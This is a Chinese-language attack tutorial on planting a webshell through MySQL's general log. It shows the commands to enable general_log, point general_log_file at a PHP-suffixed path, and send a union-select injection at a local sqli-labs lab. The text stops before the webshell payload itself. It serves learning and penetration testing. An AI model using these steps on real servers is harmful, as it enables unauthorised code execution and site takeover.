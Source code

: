日志写马
====

条件
--

1.全局变量`general_log`为ON

MySQL的两个全局变量：

`general_log`指的是日志保存状态，一共有两个值（ON/OFF）ON代表开启 OFF代表关闭。

`general_log_file` 指的是日志的保存路径。

```php
mysql> show global variables like "%general_log%";
+------------------+--------------------------------------------------------+
| Variable_name    | Value                                                  |
+------------------+--------------------------------------------------------+
| general_log      | OFF                                                    |
| general_log_file | D:\phpStudy\PHPTutorial\MySQL\data\DESKTOP-UQAMJKA.log |
+------------------+--------------------------------------------------------+
2 rows in set (0.02 sec)

```

如果目前这个`general_log`为off状态，那么日志就没有被记录进去，所以要先打开这个全局变量。

`set global general_log='on';`

打开过后，日志文件中就会记录我们写的sql语句。我这里用sqli-labs来进行执行sql语句：

`http://127.0.0.1/sqli-labs-master/Less-1/?id=-1%27%20union%20select%201,2,3--+`

打开`D:\phpStudy\PHPTutorial\MySQL\data\DESKTOP-UQAMJKA.log`日志文件，成功记录

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ba51a1eb042d738e1a61b0aee1c880f0e0820cae.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ba51a1eb042d738e1a61b0aee1c880f0e0820cae.png)

注：不管sql语句是否正确都会记录进去。

不过`general_log_file`可以直接通过SQL语句修改，而且必须修改为比如`php`后缀的文件，不然马不能被解析。下面讲第2点条件会详细说明。

2.需要`secure_file_priv`为空，即`secure_file_priv=""`；或者`secure_file_priv`为`general_log_file` 日志的保存路径的磁盘。不过`general_log_file`可以直接通过SQL语句修改，必须要修改为比如`php`后缀的文件，不然马不能被解析：

```php
mysql> set global general_log_file='D:/1.log';
Query OK, 0 rows affected (0.07 sec)

mysql> show variables like "%general%";
+------------------+----------+
| Variable_name    | Value    |
+------------------+----------+
| general_log      | ON       |
| general_log_file | D:/1.log |
+------------------+----------+
2 rows in set (0.03 sec)

#注：其中路径里的\用\\或者/代替，因为\的话会消失一个
mysql> set global general_log_file='D:\1.log';
Query OK, 0 rows affected (0.06 sec)

mysql> show variables like "%general%";
+------------------+---------+
| Variable_name    | Value   |
+------------------+---------+
| general_log      | ON      |
| general_log_file | D:1.log |
+------------------+---------+
```